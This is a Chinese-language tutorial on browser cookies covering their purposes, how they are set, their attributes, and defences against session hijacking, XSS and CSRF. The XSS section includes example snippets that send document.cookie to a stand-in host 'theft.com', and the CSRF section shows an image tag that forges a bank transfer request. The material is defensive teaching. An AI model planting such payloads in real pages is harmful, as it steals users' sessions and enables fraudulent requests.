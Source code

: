 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 值为未来的时间长度，单位为S，表示过期的时间长度<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>

`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>

`3. 删除时，domain和path需要该cookie一致`<br>

`4. httponly只能通过服务端Set-Cookie设置`<br>

`5. 同源策略-不能设置和获取其他域的cookie`<br>
## Cookie安全
### SessionHijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

1.可以使用https加密传输，同时设置secure只能通过https进行传输<br>
2.随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```
**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.执行控制**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 注意使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取
### CSRF（跨站请求伪造）
代表用户在其他地方发起一个伪造的请求，假如在一个没有做输入过滤的论坛上接收到一个消息，该消息为如下代码
```html
<img src="http://bank.com/withdraw?account=you&amount=1000000&for=attacker">
```
如果此时你正好登录了bank.com且cookie有效，那该条消息会携带cookie向银行服务器发送一个转账的请求，银行通过cookie发现有效，则会执行转账操作

- 尽量减少敏感cookie失效时间
- 设置SameSite为lax同源策略，跨域时cookie不会被发送
- 敏感请求应该提供再次确认，如收到该请求后告知前端需要滑块验证或者输入用户信息，通过后回传才能继续执行
- 通过请求头origin或者referrer验证请求来源，且改用post方式（虽然请求头可以伪造，但是可以抵挡部分虚假和get请求）
- 不通过cookie进行认证，可添加一个自定义请求头进行认证，其值为动态生成的随机字符串
- 输入和输出过滤
- 在请求中添加cookie对应的token，对比请求中的token和cookie是否一致（cookie同源策略-伪造者不能设置和获取其他域的cookie到token中）
